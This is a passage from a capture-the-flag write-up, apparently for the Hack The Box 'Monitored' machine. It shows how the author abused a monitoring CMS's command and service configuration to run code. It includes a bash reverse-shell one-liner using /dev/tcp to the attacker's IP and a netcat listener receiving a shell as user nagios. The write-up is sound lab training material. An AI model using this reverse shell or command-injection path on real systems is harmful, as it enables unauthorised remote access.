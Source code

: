 I got the Admin dashboard page so lets move to SSH terminal option and I think I could execute some commands .

![Image](Pasted%20image%2020240419095908.png)
_Path toward SSH Terminal Page_

I got into this page ⏬

![Image](Pasted%20image%2020240419095951.png)
_It did not worked_

I moved on and this time , My plan is to include a Command and then that command will be served in a service like this ⏬

Lets move to <kbd>Navigation</kbd> > <kbd>Config</kbd> > <kbd>Advanced Configuration</kbd> > <kbd>148 Commands</kbd>
Here I will be including a Command ⏬
![Image](Pasted%20image%2020240419100518.png)
_Navigated path to Commands_

Click on <kbd>Add New</kbd> commands ⏬

![Image](Pasted%20image%2020240419100645.png)
_Command Add_

Now I will be adding a reverse shell command ⏬

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.17/4444 0>&1'
```
{: .nolineno}

Save it and Now move to services to use that command that I made right now ⏬

![Image](Pasted%20image%2020240419101204.png)
_Service Page_

<kbd>Add New</kbd> services into this CMS site ⏬

![Image](Pasted%20image%2020240419101227.png)
_Add New Services into it_

Now select the command that was added earlier ⏬

![Image](Pasted%20image%2020240419101413.png)
_Selected the same command the we made earlier_

Lets <kbd>Run Check Command</kbd> to make it work 🔻

![Image](Pasted%20image%2020240419101729.png)
_Reverse Shell is executed_

As a result of that I got a Local Privileged Escalation on this machine as user **nagios** ⏬

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Monitored]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.17] from (UNKNOWN) [10.10.11.248] 38024
bash: cannot set terminal process group (5334): Inappropriate ioctl for device
bash: no job control in this shell
nagios@monitored:~$ whoami
whoami
nagios
nagios@monitored:~$ id
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
nagios@monitored:~$ 
```